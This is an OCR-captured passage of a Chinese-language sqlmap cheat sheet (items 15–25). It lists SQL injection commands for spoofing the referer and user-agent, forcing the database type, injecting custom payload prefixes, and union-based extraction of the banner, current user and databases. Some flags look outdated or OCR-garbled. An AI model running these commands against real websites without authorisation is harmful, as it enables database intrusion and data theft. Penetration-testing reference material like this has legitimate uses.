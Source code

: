 

15)refer 欺骗 sqlmap -u "url" --refer "url" -v 3

16)使用自定义 user-agent 或者 user-agents.txt sqlmap -u "url" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3 sqlmap -u "url" -v 1 -a "./txt/user-agents.txt"

 17)使用多线程猜解 sqlmap -u "url" -v 1 --current-user --threads 3 

18)指定数据库，绕过 SQLMAP 的自动检测 sqlmap -u "url" -v 2 --dbms "PostgreSQL" 

19)指定操作系统绕过 SQLMAP 自动检测 sqlmap -u "url" -v 2 --os "Windows"

 20)--prefix and --postfix 自定义 payload sqlmap -u "url" -v 3 -p "id" --prefix "'" --postfix "and 'test'='test" 21)union 注入测试 sqlmap -u "url" --union-test -v -1

 22)配合 order by sqlmap -u "url" --union-test --union-tech orderby -v 1 

23)sqlmap -u "url" -v 1 --union-use --banner 

24)sqlmap -u "url" -v 5 --union-use --current-user

 25)sqlmap -u "url" -v 1 --union-use –dbs

 注：如果是在 windows 环境下，将 sqlmap 替换成 python sql map.py （免python版sqlmap了解一下）




